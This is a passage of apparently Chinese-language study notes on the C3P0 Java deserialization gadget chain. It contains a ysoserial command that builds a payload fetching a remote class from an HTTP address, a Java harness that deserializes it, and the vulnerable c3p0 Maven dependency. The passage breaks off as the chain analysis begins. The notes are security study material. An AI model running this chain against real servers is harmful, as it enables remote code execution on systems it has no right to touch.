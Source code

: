 

使用yso生成序列化文件

```cmd
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar C3P0 "http://0.0.0.0:9091/:Exploit" > poc.ser
```

payload:

```java
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class C3P0 {
    public static void main(String args[]) throws IOException, ClassNotFoundException {
        String path = System.getProperty("user.dir");
        System.out.println(path);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(path+"\\poc.ser"));
        // trigger deserialization point
        in.readObject();
    }
}
```

Maven依赖:

```XML
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.3</version>
</dependency>
```

## http base

## 前置知识

### Reference

之前学习jndi和工厂模式的时候就接触过,大概就是一个指向一个具体对象的对象



## 流程分析

这条链子的入口是在`PoolBackedDataSourceBase#readObject`

![image-20211122153651592](img/image-20211122153651592.png)
